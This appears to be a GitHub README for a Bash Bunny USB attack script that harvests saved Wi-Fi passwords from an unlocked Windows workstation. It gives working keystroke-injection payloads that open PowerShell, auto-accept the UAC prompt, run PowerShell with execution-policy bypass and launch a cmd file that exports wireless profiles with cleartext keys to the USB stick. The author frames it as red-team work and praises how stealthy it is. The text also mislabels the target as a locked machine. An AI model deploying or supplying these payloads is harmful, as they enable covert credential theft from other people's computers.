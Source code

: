 # BashBunny-Script-6
In this I am creating a Bash Bunny Script to hack the credentials from a locked machine
In this script I wanted to try and hack the wireless credentials form a locked machine through bash bunny

I took the reference from the below link

https://blog.didierstevens.com/2017/04/06/quickpost-using-my-bash-bunny-to-snag-creds-from-a-locked-machine/

 Basically, what this module does is force an administrator command prompt to run and then issue the following command
 
 netsh wlan export profile key=clear
  
 Since the machine has to be unlocked anyway, you might be wondering why not just open a command prompt and run the above command manually? Why bother with the Bash Bunny? Here is why: When you are doing a physical penetration test or red team engagement you will often find unlocked workstations. If you are going to collect data from such a workstation it is much easier to be stealthy if all you have to do is plug-in a USB. You would not necessarily even need to sit down at the computer. Let’s face it, typing on someone else’s keyboard is definitely a red flag if someone were to notice you but standing near someone’s desk (while you wait about 7 seconds for the Bash Bunny to do its job) can be much easier “explained” if you get caught.
 
Here is how to prep and launch the attack:

First, put the bunny in arming mode (switch position 3, toward the insertion point) and grab the payload files


I tried with the script below 


# Source bunny_helpers.sh to get the environment

source bunny_helpers.sh

# Set language accordingly ( Here I have set it to US English)

Q SET_LANGUAGE US

ATTACKMODE HID STORAGE

LED B 200

# Launch Powershell As Admin

Q GUI r

Q DELAY 100

Q STRING powershell Start-Process powershell // This will start the powershell

Q ENTER

# Bypass UAC

Q DELAY 3000

Q ALT y     // Q ALT y” command means to enter the letter “y” when the UAC prompt is presented 

Q ENTER    // This is for the the UAC elevation permission

Q DELAY 500


To launch the attack move the switch to the switch position where you stored the payloads, in Switch 1 or Switch 2

Then, Plug it into the Unlocked Machine.

Each of these files contains the SSID and where possible (WEP/WPA-PSK &WPA2-PSK), the passphrase:

Interestingly enough an unprivileged user is allowed to successfully dump the wireless profiles including the passwords in cleartext.

So I modified the payload.txt file like this…



###### Now using this Bashbunny script to capture the wireless credentials  #######

# #Set language accordingly

Q SET_LANGUAGE US

ATTACKMODE HID STORAGE

LED B 200

# #Launch Powershell

Q GUI r

# Commented this lines

#Launch Powershell As Admin

#Q GUI r

#Q DELAY 100

#Q STRING powershell Start-Process powershell -Verb runAs 

#Q ENTER

# Bypass UAC

#Q DELAY 3000

#Q ALT y

#Q ENTER

#Q DELAY 500

# Added this lines Below

Q DELAY 1000

Q STRING powershell -exec bypass 

Q ENTER

Q DELAY 3000


# 	Start a.cmd

Q STRING '.((gwmi win32_volume -f '"''"'label='"''"'BashBunny'"''"').Name+'"''"'payloads/'

Q STRING $SWITCH_POSITION

Q STRING 'a.cmd'"''"')'

Q ENTER

# Wait for the a.cmd to finish and exit

